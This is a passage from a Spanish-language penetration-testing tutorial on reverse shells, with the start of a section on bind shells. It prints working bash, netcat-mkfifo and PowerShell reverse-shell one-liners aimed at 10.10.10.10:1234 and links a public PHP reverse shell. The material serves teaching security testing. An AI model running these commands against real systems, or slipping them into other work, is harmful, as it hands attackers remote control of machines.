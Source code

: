 Ciertos comandos de shell inverso son más confiables que otros y, por lo general, se pueden utilizar para obtener una conexión inversa. Los siguientes comandos son comandos confiables que podemos usar para obtener una conexión inversa, tanto `bash`en hosts Linux como `Powershell`en hosts Windows comprometidos:

Código: bash

```bash
bash -c 'bash -i >& /dev/tcp/10.10.10.10/1234 0>&1'
```

Código: bash

```bash
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.10.10 1234 >/tmp/f
```

Código: powershell

```powershell
powershell -nop -c "$client = New-Object System.Net.Sockets.TCPClient('10.10.10.10',1234);$s = $client.GetStream();[byte[]]$b = 0..65535|%{0};while(($i = $s.Read($b, 0, $b.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($b,0, $i);$sb = (iex $data 2>&1 | Out-String );$sb2 = $sb + 'PS ' + (pwd).Path + '> ';$sbt = ([text.encoding]::ASCII).GetBytes($sb2);$s.Write($sbt,0,$sbt.Length);$s.Flush()};$client.Close()"
```

Podemos utilizar el exploit que tenemos sobre el host remoto para ejecutar uno de los comandos anteriores, es decir, a través de un exploit de Python o un módulo de Metasploit, para obtener una conexión inversa.&#x20;

Como podemos ver, después de recibir una conexión en nuestro `netcat`oyente, pudimos escribir nuestro comando y obtener su salida directamente en nuestra máquina.

`Reverse Shell`es útil cuando queremos obtener una conexión rápida y confiable con nuestro host comprometido. Sin embargo, a `Reverse Shell`puede ser muy frágil. Una vez que se detiene el comando de shell inverso, o si perdemos nuestra conexión por cualquier motivo, tendríamos que usar el exploit inicial para ejecutar el comando de shell inverso nuevamente para recuperar nuestro acceso.

> **Nota Importante:**
>
> 📘 **PHP Reverse Shell** desarrollado por **PentestMonkey** es una herramienta popular para establecer una conexión de shell inverso en entornos de pruebas de penetración. Puedes acceder al código fuente del proyecto y utilizarlo en escenarios controlados o con propósitos educativos.
>
> 🔗 [Repositorio de PHP Reverse Shell en GitHub](https://github.com/pentestmonkey/php-reverse-shell)

## BIND SHELL

&#x20;A diferencia de un `Reverse Shell`que se conecta a nosotros, nosotros tendremos que conectarnos a él en el `targets'`puerto de escucha.

Una vez que ejecutamos un `Bind Shell Command`, comenzará a escuchar en un puerto del host remoto y vinculará el shell de ese host, es decir, `Bash`o `PowerShell`, a ese puerto. Tenemos que conectarnos a ese puerto con `netcat`, y obtendremos el control a través de un shell en ese sistema.
